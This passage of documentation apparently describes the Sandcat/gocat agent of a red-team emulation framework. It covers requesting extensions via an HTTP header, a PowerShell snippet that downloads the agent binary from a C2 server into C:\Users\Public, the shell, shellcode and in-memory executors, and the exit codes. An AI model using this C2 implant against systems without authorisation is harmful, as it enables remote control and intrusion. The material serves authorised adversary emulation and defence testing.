 To request particular gocat extensions, users can 
include the `gocat-extensions` HTTP header when asking the C2 to compile an agent. The header value
must be a comma-separated list of requested extensions. The server will include the extensions in
the binary if they exist and if their dependencies are met (i.e. if extension A requires a particular
Golang module that is not installed on the server, then extension A will not be included).

Below is an example powershell snippet to request the C2 server to include the `proxy_http` and `shells` 
extensions:
```
$url="http://192.168.137.1:8888/file/download"; # change server IP/port as needed
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows"); # specifying Windows build
$wc.Headers.add("file","sandcat.go"); # requesting sandcat binary
$wc.Headers.add("gocat-extensions","proxy_http,shells"); # requesting the extensions
$output="C:\Users\Public\sandcat.exe"; # specify destination filename
$wc.DownloadFile($url,$output); # download
```

The following features are included in the stock agent:
- `HTTP` C2 contact protocol
- `psh` PowerShell executor (Windows)
- `cmd` cmd.exe executor (Windows)
- `sh` shell executor (Linux/Mac)
- `proc` executor to directly spawn processes from executables without needing to invoke a shell (Windows/Linux/Mac)

Additional functionality can be found in the following gocat extensions:
- `gist` extension provides the Github gist C2 contact protocol.
- `shells` extension provides the `osascript` (Mac Osascript) and `pwsh` (Windows powershell core) executors.
- `shellcode` extension provides the shellcode executors.
- `proxy_http` extension provides the `HTTP` peer-to-peer proxy receiver.
- `proxy_smb_pipe` extension provides the `SmbPipe` peer-to-peer proxy client and receiver for Windows (peer-to-peer
communication via SMB named pipes).
- `donut` extension provides the Donut functionality to execute various assemblies in memory. 
See https://github.com/TheWover/donut for additional information.
- `shared` extension provides the C sharing functionality for Sandcat.

#### Exit Codes

Exit codes returned from Sandcat vary across executors. Typical shell executors will return the exit code provided by the shell. Certain executor extensions will return values hard-coded in Sandcat.

Sandcat includes general exit codes which may be utilized by executors, overriden by executors, or used in error cases. The following values describe general Sandcat exit codes:
- `-1`: Error (e.g., cannot decode command, payload not available)
- `0`: Success

The following values describe exit codes utilized by specific executors:
- `shells`: Returns the exit code provided by the OS/shell.
- `shellcode`: Utilizes the general Sandcat exit codes.
- `native` and `native_aws`:
    - `0`: Success
    - `1`: Process error (e.g., error while executing code)
    - `2`: Input error (e.g., invalid parameters)
- `donut`: Returns the exit code provided by the OS/shell.
